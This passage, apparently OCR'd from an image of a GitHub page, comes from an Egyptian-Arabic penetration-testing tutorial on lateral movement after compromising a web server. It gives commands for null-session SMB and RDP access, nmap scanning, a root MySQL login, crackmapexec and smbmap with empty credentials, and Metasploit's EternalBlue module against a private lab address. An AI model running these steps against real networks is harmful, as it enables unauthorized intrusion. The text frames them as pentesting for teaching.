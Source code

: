 - **RDP (ويندوز):**
  - لو لقيت 3389 مفتوح:
    ```cmd
    net use \\192.168.1.11\IPC$ /user:administrator ""
    ```
    - لو نجح، جرب:
    ```cmd
    rdesktop 192.168.1.11
    ```

- **ليه بيحصل الضعف؟**
  - الخدمات الداخلية بتكون مفتوحة بدون حماية (باسووردات ضعيفة أو Firewall مفقود).
  - السيرفر المخترق بيكون متصل بالخدمات دي.

**خلاصة للطفل:** زي لما تكتشف ألعاب سرية في بيت اللعب 🎮، وتستخدمها عشان تفتح صناديق الكنز وتاخد كل الحلويات! 💰🍭

---

### **4. إزاي تستغل ده في الـ Pentesting؟ ⚒️**
في الـ Pentesting، بعد ما تخترق سيرفر ويب، بتكتشف الخدمات الداخلية وتستغلها عشان تاخد تحكم أكبر في الشبكة وتبلغ عن المشاكل.

#### **الجانب العملي:**
- **فحص الشبكة:**
  ```bash
  nmap -sV 192.168.1.0/24
  ```
  - بيعرفك الخدمات (مثلاً MySQL، SMB).

- **استغلال MySQL:**
  ```bash
  mysql -h 192.168.1.11 -u root -p
  ```
  - لو دخلت، نفذ:
    ```sql
    SHOW DATABASES;
    ```

- **استغلال SMB:**
  ```bash
  crackmapexec smb 192.168.1.11 -u "" -p ""
  ```
  - لو نجح، جرب:
    ```bash
    smbmap -H 192.168.1.11
    ```

- **استغلال بـ Metasploit:**
  ```
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST 192.168.1.11
  run
  ```
